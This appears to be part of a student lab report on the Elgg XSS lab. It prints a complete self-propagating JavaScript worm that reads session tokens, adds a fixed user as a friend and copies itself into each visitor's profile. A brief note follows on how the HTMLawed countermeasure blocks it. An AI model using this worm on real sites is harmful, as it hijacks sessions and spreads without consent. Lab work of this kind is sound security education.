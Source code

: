 \documentclass[a4paper,11pt]{article}
\begin{document}
\begin{lstlisting}[caption={DOM Approach},label={lst:task12},language=HTML,breaklines=true]
<script type="text/javascript">
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var name="&name"+userName;
var accesslevel="&accesslevel[description]="+"2";
var headerTag="<script id=\"worm\" type=\"text/javascript\">";
var tailTag="</" + "script>";
var jsCode='window.onload = function () {var Ajax=null;var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;var token="&__elgg_token="+elgg.security.token.__elgg_token;var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47"+ts+token;Ajax=new XMLHttpRequest();Ajax.open("GET",sendurl,true);Ajax.setRequestHeader("Host","www.xsslabelgg.com");Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");Ajax.send();}'
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
var propagatescript="&description="+wormCode;
var content=ts+token+name+guid+propagatescript+accesslevel;
var samyGuid=47;
var sendurl='http://www.xsslabelgg.com/action/profile/edit';
 if(elgg.session.user.guid!=samyGuid){
 var Ajax=null;
 Ajax=new XMLHttpRequest();
 Ajax.open("POST",sendurl,true);
 Ajax.setRequestHeader("Host","www.xsslabelgg.com");
 Ajax.setRequestHeader("Content-Type",
 "application/x-www-form-urlencoded");
 Ajax.send(content);
 }
}
</script>
\end{lstlisting}

\subsection{Countermeasures XSS}

\textbf{1. Activating only the HTMLawed countermeasure as shown in Figure \ref{fig:task12.1}}

\textbf{Observations:}

Upon activating only the HTMLawed plugin and visiting the victim profiles, it was observed that the user-generated content that previously contained malicious scripts no longer executed those scripts. The HTMLawed plugin effectively sanitized the input fields by removing or escaping HTML tags that could be used for scripting. As a result, any attempt to perform an XSS attack by injecting script tags or other HTML elements that could contain JavaScript was thwarted. The profiles displayed user input as plain text, or with only the allowed HTML tags, thereby preventing any embedded JavaScript from running, as shown in Figure \ref{fig:task12-1}.
\end{document}
